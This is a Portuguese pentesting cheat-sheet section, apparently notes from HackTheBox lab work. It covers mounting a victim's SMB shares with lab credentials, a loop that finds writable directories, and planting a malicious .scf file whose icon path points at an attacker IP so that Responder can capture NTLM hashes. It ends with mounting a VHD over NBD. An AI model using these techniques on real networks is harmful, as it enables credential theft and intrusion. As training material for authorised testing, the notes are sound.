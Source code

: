 # 9. Mounting recursos partilhados por rede pela vítima

## 9.1. Mount / umount

```bash
mount -t cifs //10.10.10.40/Users /mnt/smbmounted -o username=null,password=null,domain=WORKGROUP,rw
mount -t cifs //10.10.10.161/SYSVOL /mnt/smbmounted -o username=svc-alfresco,password=s3rvice,domain=htb.local
sudo mount -t cifs //10.10.10.100/Users /mnt/smbmounted -o username=SVC_TGS,password=GPPstillStandingStrong2k18,domain=active.htb,rw  # mount -t (tipo de filesistem) cifs (common internet file system) de onde, para qual pasta, -o (parametro de opções)
```

### 9.1.1. Verificar se se pode escrever e onde com simples bash - MOUNTED DRIVE

```bash
find . -type d | while read directory; do
touch /mnt/smbmounted/${directory}/javali 2>/dev/null && echo "Arquivo criado em - ${directory}" && rm /mnt/smbmounted/${directory}/javali
mkdir /mnt/smbmounted/${directory}/javali 2>/dev/null && echo "Directório criado em - ${directory}" && rmdir /mnt/smbmounted/${directory}/javali
done


```

### 9.1.2. Responder

```bash
# Em um directório smbmounted com permissões de escrita, e com alguma tarefa a ser executada (simulando um usuário a ler o arquivo)
echo "[Shell]" > file.scf
echo "Command=2" >> file.scf
echo "IconFile=\\\\\10.10.16.183\\smbFolder\\\testing" >> file.scf
```

```bash
responder -I tun0 -r -d -w
```

## 9.2. NBD virtual file sistem - VHD

```bash
modprobe nbd  # Creating virtual file system
rmmod nbd     # Removing virtual file system
qemu-nbd -c /dev/nbd0 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd  # creating accessibility virtual file system into /dev/nbd0
mount /dev/nbd0p1 /mnt/Bastion                                  # finally mount the virtual file system into /mnt/Bastion

```
